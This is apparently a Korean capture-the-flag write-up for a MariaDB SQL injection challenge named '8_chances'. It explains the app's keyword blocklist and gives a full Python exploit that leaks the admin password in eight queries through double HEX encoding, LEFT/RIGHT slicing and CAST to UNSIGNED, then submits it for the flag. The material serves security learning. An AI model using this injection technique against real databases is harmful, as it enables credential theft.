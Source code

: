 # 8_chances

## Concept

- sql injection
- mariadb

## Writeup

주요 기능을 정리해보겠습니다.
1. `reset` : `chance`를 8로 초기화합니다.
2. `test` : 입력한 쿼리를 실행시켜줍니다. 이 때 쿼리에
   `['union', 'update', 'sleep', 'concat', 'like', 'set', '@', '!', '%', '_', '\t','\n','\r','\v','\f', '/', '*', '#']`
   을 포함하면 안 됩니다.
3. `real` : `username`과 `password`를 입력받고 이것이 `admin`의 정보와 일치하면 `flag`를 줍니다. 이 때 `username`과 `password`는
   `string.punctuation + string.whitespace + string.digits`
   을 포함하면 안 됩니다.

`test` 기능을 자세히 보겠습니다.
`chance >= 8`이면 `admin`의 `password`를 교체합니다. 그리고 `test` 실행마다 `chance`가 1씩 증가하기 때문에 한 번 정해진 `password`는 8번의 쿼리 동안 유지됩니다. 쿼리 실행 결과의 요소가 1개이고, 그 `value`가 정수형이라면 출력해줍니다.
8번의 쿼리만을 `password`를 알아내야 합니다. 쿼리 실행 결과가 정수형이어야 출력을 볼 수 있으므로 `CAST(... as INT)`를 사용합니다. `INT`는 `BIGINT`로(`9,223,372,036,854,775,807`) 19글자의 숫자로 이루어진 문자열을 정수형으로 바꿀 수 있습니다. 생각을 조금만 더 하면, `UNSIGNED`를 사용하면 확정적으로 19글자를 정수형으로 출력할 수 있습니다. `password` 초기화 과정에서 알 수 있는 점은 길이가 38인 점, `string.ascii_letters`로 이루어져 있다는 점입니다.
## ex.py

```python
import requests

base_url = "http://localhost:10000/"

def reset():
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : "1",
        "type" : "reset"
    }
    requests.post(base_url, data=data)

def test(testquery : str):
    data = {
        "user" : "1",
        "pass" : "1",
        "testquery" : testquery,
        "type" : "test"
    }
    res = requests.post(base_url, data=data)
    msg = res.text
    msg = msg.split('\n')[110].split('<')[1].split('>')[1]
    return msg

def real(ps : str):
    data = {
        "user" : "admin",
        "pass" : ps,
        "testquery" : "1",
        "type" : "real"
    }
    res = requests.post(base_url, data=data)
    return res.text

def lef(s : str, n : int):
    return "LEFT(" + s + f", {str(n)})"

def rig(s : str, n : int):
    return "RIGHT(" + s + f", {str(n)})"

def outline(s : str):
    return "SELECT CAST(" + s + " as UNSIGNED)"

base_payload = f"""
HEX(HEX((SELECT password FROM users WHERE username='admin')))
""".strip()

reset()
pw = ""
pw += test(outline(lef(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(lef(base_payload, 76), 38), 19)))
pw += test(outline(lef(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(lef(rig(base_payload, 76), 38), 19)))
pw += test(outline(lef(rig(rig(base_payload, 76), 38), 19)))
pw += test(outline(rig(rig(rig(base_payload, 76), 38), 19)))
realpw = bytes.fromhex(bytes.fromhex(pw).decode()).decode()
print(realpw)
print(real(realpw))
```

8등분하는 방법은 여러 가지입니다. 예를 들어 `LEFT`와 `REVERSE` 함수만으로도 비슷한 논리를 이용하여 해결할 수 있습니다.